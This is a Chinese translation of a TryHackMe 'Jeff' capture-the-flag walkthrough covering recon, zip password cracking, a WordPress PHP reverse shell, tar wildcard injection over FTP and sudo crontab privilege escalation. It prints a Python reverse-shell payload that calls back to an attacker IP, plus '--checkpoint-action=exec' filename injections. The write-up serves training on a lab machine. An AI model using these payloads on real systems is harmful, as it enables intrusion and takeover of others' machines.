








# TryHackMe —杰夫

> 原文：<https://infosecwriteups.com/tryhackme-jeff-fc2fe2a3161a?source=collection_archive---------0----------------------->


大家好，我是 Piyush Achä rya，今天我将向大家展示如何完成**杰夫**挑战。让我们开始吧。

描述:你能黑掉杰夫的网络服务器吗？

*链接到房间*:[https://tryhackme.com/room/jeff](https://tryhackme.com/room/jeff)

等级:硬(显然是😉)

# 我们开始吧

像往常一样，启动机器并运行一些 Nmap 扫描，只有两个端口是开放的 22(SSH)和 80(Web 服务器)。没什么特别的:(

```
nmap -sC -sV -T4 -vv <IP> -oA nmap
```



尝试访问 web 服务器时出现空白屏幕。因此，我们需要将“jeff.thm”添加到/etc/hosts 中，以便访问网站。

让我们看看网站上有什么。该网站是静态的，没有链接。浏览网站时，我们没有发现任何有趣的东西。



因此，我开始使用 [dirsearch](https://github.com/maurosoria/dirsearch) 列举网站的隐藏文件和目录。

```
dirsearch -u [http://jeff.thm](http://jeff.thm) --exclude-status 401
```



我们发现一些有趣的目录/admin、/uploads 和/backups。在访问/uploads 目录时，我们发现了一个“兔子洞”,有文件上传功能，但没有任何功能。然后我尝试递归地强制/backups 目录，找到了一个文件 **'** backup.zip **'。**

让我们解压缩它，看看它能提供什么，但是，该文件受密码保护。好难过！😢。让我们试着用 *fcrackzip* 解压它

```
fcrackzip -D -p -v /usr/share/wordlists/rockyou.txt ~/Downloads/backup.zip
```

让我给你解释一些标志:

*   d:运行字典攻击。
*   -p:密码列表(rockyou.txt)。
*   -v:用于详细输出。

几秒钟之内，它就给了我们密码。



我们得到一个有趣的文件‘WP admin . bak ’,它暗示我们它包含了 WordPress 站点的管理员备份凭证。等等 Wordpress 网站？但是网站' *jeff.thm* '不是一个 wordpress 网站，但是开发者说他正在建立一个 wordpress 网站，他将在未来进行升级，所以肯定有一个他可能托管 wordpress 的子域。

所以，让我们试着运行一个子域枚举的工具。在这里，我使用了 vhost 模式下的 gobuster 来发现子域。

```
gobuster vhost -u http://jeff.thm -w usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

并且，我们成功地找到了一个站点:`Found: wordpress.jeff.thm (Status: 200) [Size: 25901]`

然后，我将这个主机名添加到我的“/etc/hosts”文件中，并打开网站。我们有 wordpress 的基本索引页面。

我们从`backup.zip` wpadmin.bak 中知道了密码，并查看了该网站，“jeff”可能是用户名。让我们用这些凭证登录`[http://wordpress.jeff.thm/wp-admin](http://wordpress.jeff.thm/wp-admin)`。

# 剥削(乐趣开始！😎)



现在，我们需要通过添加来自 [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) 的 PHP 反向 shell 来获得一个反向 shell。有多种方法可以获得一个反向外壳，我将通过添加来自 404.php pentest monkey 的恶意代码来使用一个不活跃的主题。



一旦我们更改了 IP 地址和端口，我们可以单击*更新文件* 按钮。

在我们访问浏览器上的链接之前，我们需要启动监听端口，以便获得一个反向 shell。

```
nc -nvlp 9009
```

现在，我们需要向 URL 发送一个 get 请求，要么使用 curl 命令，要么通过浏览器直接访问它。

```
curl [http://wordpress.jeff.thm/wp-content/themes/twentyninetten/404.php](http://wordpress.jeff.thm/wp-content/themes/twentyninetten/404.php)
```

最后，我们最初的立足点是机器中的 www-data。列举我们看到的机器”。dockerenv "文件，它表明我们在 docker 容器中。运行 [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 并没有揭示太多关于这个盒子的信息，而是/var/www/data/ftp_backup.php 中的一个文件。

```
<?php                                                                                          
/*                                             
    Todo: I need to finish coding this database backup script.
          also maybe convert it to a wordpress plugin in the future.                           
*/                                                                                             
$dbFile = 'db_backup/backup.sql';              
$ftpFile = 'backup.sql';                                                                                                                                                                      

$username = "backupmgr";                                                                                                                                                                      
$password = <password>;                                                                                                                                                         

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host            

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");                                                                                                                                                                
}        

$msg = "Upload failed";                                                                        
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {        
    $msg = "$file was uploaded.\n";                                                            
}                                                                                              

echo $msg;                                                                                     
ftp_close($conn_id);
```

这个不完整的 PHP 脚本与 FTP 试图上传数据库备份“backup.sql”有关，我们可以从这个脚本中看到。但是当我们运行 Nmap 扫描时，FTP 没有打开。怎么会？🤔

所以在这一刻，我不知道该做些什么，因为在我过去做的任何一部 CTF 电影中，我都没有面临过这样的挑战。我知道通配符利用，但我不知道 python 有一个名为“ftplib”的模块。我不得不做很多研究，但是运气不好，我不能利用它。但是在互联网上做了一些研究后，我发现了下面的脚本😉。

由于 FTP 服务器只能从内部网络访问，我们可以使用 python 来完成我们的工作。

```
#!/usr/bin/env python3.7 

from ftplib import FTP
import io 
import os
import fileinput

host = "172.20.0.1"
username = "backupmgr"
password = "<PASSWORD>" # Password we found in ftp_backup.php

ftp = FTP(host=host)

login_status = ftp.login(user=username, passwd=password)
print(login_status)
ftp.set_pasv(False)
ftp.cwd('files')
print(ftp.dir())

rev = io.BytesIO(b'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.87",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
emptyFile = io.BytesIO(b'')
ftp.storlines('STOR rev.sh', rev)
ftp.storlines('STOR --checkpoint=1', emptyFile)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', emptyFile)
ftp.dir()
```

一个 crontab 正在容器外运行！用户`backupmgr`每隔几分钟运行`tar`，并使用通配符`*`来包含`ftp://files`目录中的所有内容。因为 tar 容易受到通配符*的攻击，所以我们能够利用它。

然后，我们可以通过在本地机器上托管一个 python web 服务器，将这个脚本传输到目标机器上。

```
python3 -m http.server 80
```

在目标计算机中，将目录更改为/tmp，因为我们是低特权用户，我们没有对任何其他目录的写权限。在目标机器上使用 wget，我们需要下载托管的 python 脚本。下载完 python 脚本后，我们需要将权限更改为可执行。

在执行 python 文件之前，我们需要开始监听本地机器。



我们成功地获得了一个 shell 作为用户‘backup mgr’。让我们尝试读取 user.txt，但遗憾的是，我们得到的是“权限被拒绝”😥。因此，机器上必须有另一个用户有权读取 user.txt 文件。在读取“/etc/passwd”文件时，我们可以看到用户“jeff”。所以是时候再次升级我们的特权悲哀了！

# 从 Backupmgr 到 Jeff 的权限提升

我们已经成功地逃离了 docker 容器，但是还有很多事情要做“backupmgr -> jeff -> root”。搜索用户杰夫的文件和目录，我们发现一些重要的文件。

```
**backupmgr@tryharder:/home$** find / -user jeff 2>/dev/null
/opt/systools
/opt/systools/systool
/home/jeff
/var/backups/jeff.bak
**backupmgr@tryharder:/home$**
```

“/var/backups/jeff.bak”可能包含我们现在无法访问的用户“jeff”凭据。但是有一样东西很突出，那就是“`/opt/systools/systool`”。但幸运的是，systool 是以“pwman”组的权限运行的，我们需要找到一些方法来利用这个二进制文件来提升我们对用户 jeff 的权限。

我们在“/opt/systools”目录中看到 message.txt，当我们运行 systool 二进制文件的选项 2 时，总是会读取它。我们可以删除 message.txt，并将“/opt/backups/jeff.bak”链接到 message.txt，这样每当 systool 运行时，它都会尝试读取“jeff.bak”的内容。

```
ln -s /var/backups/jeff.bak message.txt
```



现在，由于 ssh 在端口 22 上是开放的，我们可以使用给定的凭证 SSH 到用户 jeff 并读取 user.txt。

```
ssh jeff@jeff.thm # It will give restricted shell
```

# 权限提升-> root

很容易将我们的特权提升到 root。但是用户“jeff”正在运行一个受限制的 shell，因此要从其中退出。奔跑

```
ssh jeff@jeff.thm -t "bash --noprofile"
```

当试图将我们的特权提升到 root 时，我们首先检查的是运行“sudo -l”。我错了吗？😜。运行该命令会显示

```
Matching Defaults entries for jeff on tryharder:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jeff may run the following commands on tryharder:(ALL) /usr/bin/crontab
```

现在这很容易。快跑吧

```
sudo /usr/bin/crontab -e
```

这将打开 vim 并键入":！/bin/bash”并按回车键。耶！最终扎根😈

现在，从“/root/root.txt”中读取根标志

# 结论:

好吧，就这样。我希望这没有让你厌烦。这是我演过的最艰难的 CTF，我非常喜欢。花时间是值得的。请继续关注，阅读更多关于 CTF 和奖金的文章。最后，我知道我犯了很多语法错误，原谅我。

~ R3 alix 01(Piyush achr ya)